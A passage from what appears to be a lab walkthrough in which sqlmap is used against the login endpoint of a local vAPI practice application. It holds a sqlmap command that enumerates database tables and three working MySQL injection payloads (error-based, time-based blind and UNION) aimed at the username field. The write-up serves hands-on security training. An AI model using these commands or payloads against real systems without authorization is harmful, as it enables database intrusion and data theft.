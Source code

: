 ```
403 (Forbidden) - 1 times
[14:13:29] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/localhost'

[*] ending @ 14:13:29 /2024-06-30/
```
- Observe that 5 databases were found
	- information_schema
	- mysql
	- performance_schema
	- sys
	- vapi

Lets enumerate the vapi table since that seems interesting
```bash
sqlmap "http://localhost/vapi/api8/user/login" --data="username=test1&password=test2" -p username -D vapi --tables
```
```
        ___
       __H__                                                                                                                                                                                                                                                                            
 ___ ___[.]_____ ___ ___  {1.8.6.3#dev}                                                                                                                                                                                                                                                 
|_ -| . [']     | .'| . |                                                                                                                                                                                                                                                               
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                                                               
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                            

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:15:39 /2024-06-30/

[14:15:39] [INFO] resuming back-end DBMS 'mysql' 
[14:15:39] [INFO] testing connection to the target URL
[14:15:39] [WARNING] the web server responded with an HTTP error code (403) which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=test1' AND GTID_SUBSET(CONCAT(0x716b6b6b71,(SELECT (ELT(6285=6285,1))),0x716a7a6a71),6285)-- UPWT&password=test2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test1' AND (SELECT 8597 FROM (SELECT(SLEEP(5)))bVMV)-- Fdoy&password=test2

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test1' UNION ALL SELECT NULL,CONCAT(0x716b6b6b71,0x67754b4c4f67766344637965545676576b666d4f7a4c634c5267467765614e5755436a6e55476c52,0x716a7a6a71)-- -&password=test2
---
[14:15:39] [INFO] the back-end DBMS is MySQL
```